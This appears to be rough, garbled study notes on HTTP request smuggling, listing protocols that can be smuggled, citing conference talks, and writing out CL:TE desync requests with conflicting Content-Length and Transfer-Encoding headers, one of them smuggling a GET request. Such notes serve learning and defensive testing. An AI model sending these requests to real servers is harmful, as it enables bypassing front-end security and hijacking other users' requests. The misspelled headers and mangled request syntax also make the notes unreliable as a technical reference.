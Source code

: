 Protocols that are suitable to smuggle
HTTP based protocol
Elastic, CouchDB, Mongodb, Docker
Text-based protocol
FTP, SMTP, Redis, Memcached

## video
Practical Attacks Using HTTP Request Smuggling by @defparam #NahamCon2020

## 
James kettle http desync attacks :smashing into the cell next door




 CL:TE
BY CHANGING THE CONTENT LENGHT AND the text encoding we can bypass and mak requests

Post / HTTP/1.1
content-lenght:0
Transfer-Encoding  http / 1.1


post /login HTTP/1.1
[\0X01] transfer-Encoding:chunked 
Host:<host.com>
content lenght:35

0

GET /robots.txt
x:x


CL:TE
Content-Length: 12
Transfer-Encoding: chunked

0

G




